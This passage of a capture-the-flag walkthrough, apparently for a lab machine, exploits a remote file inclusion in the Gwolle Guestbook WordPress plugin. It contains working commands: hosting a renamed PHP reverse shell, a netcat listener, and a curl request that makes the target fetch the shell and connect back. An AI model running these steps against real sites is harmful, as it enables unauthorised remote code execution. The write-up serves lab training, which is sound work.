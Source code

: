 The scan found 3 plugins, akismet (spam protection), brute-force-login-protection (self-explanatory), and gwolle-db. A search for gwolle-db in seachsploit turned up one result. The exploit was for Gwolle Guestbook v1.5.4 and wpscan reported the version as v2.3.10.  After reviewing the exploit I decided to proceed anyway because the exploit was straight forward and easy to rule out if it didn't work. 

![image](assets/85179257-882c0180-b24e-11ea-921c-771036896603.png)


The exploit works by taking advantage of a get parameter that is not properly sanitized before being used in a PHP require() function. This allows an attacker to include a remote file and in my case it will be a php reverse shell.

![image](assets/85179562-42236d80-b24f-11ea-93f8-85e843425aad.png)

I copied a reverse php shell to my working directory, renaming it to wp-load.php as per 38861, and updated the IP and Port.

```
cp ~/tools/webshells/php/php-reverse-shell.php wp-load.php
```

I set up a python http server to host the file and started a netcat listner (nc -lvnp 4200)

```
sudo python3 -m http.server 80
```

Curl was run specifying the URL for my box for the abspath parameter and I received a shell as www-data.

```
curl -X GET http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.21/
```
